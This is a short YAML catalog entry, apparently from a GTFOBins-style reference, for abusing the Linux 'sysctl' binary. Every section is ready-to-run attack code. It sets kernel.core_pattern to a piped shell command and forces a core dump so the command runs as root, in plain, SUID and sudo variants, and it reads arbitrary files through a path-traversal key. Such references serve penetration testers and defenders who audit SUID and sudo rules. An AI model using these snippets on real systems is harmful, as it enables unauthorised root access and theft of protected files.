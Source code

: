 ```yaml
---
functions:
  command:
    - description: The command is executed by root in the background when a core dump occurs.
      code: |
        COMMAND='/bin/sh -c id>/tmp/id'
        sysctl "kernel.core_pattern=|$COMMAND"
        sleep 9999 &
        kill -QUIT $!
        cat /tmp/id
  file-read:
    - description: The `-p` argument can also be used in place of `-n`. In both cases though the output might get corrupted, so this might not be suitable to read binary files.
      code: |
        LFILE=file_to_read
        /usr/sbin/sysctl -n "/../../$LFILE"
  suid:
    - code: |
        COMMAND='/bin/sh -c id>/tmp/id'
        ./sysctl "kernel.core_pattern=|$COMMAND"
        sleep 9999 &
        kill -QUIT $!
        cat /tmp/id
  sudo:
    - code: |
        COMMAND='/bin/sh -c id>/tmp/id'
        sudo sysctl "kernel.core_pattern=|$COMMAND"
        sleep 9999 &
        kill -QUIT $!
        cat /tmp/id
---
```

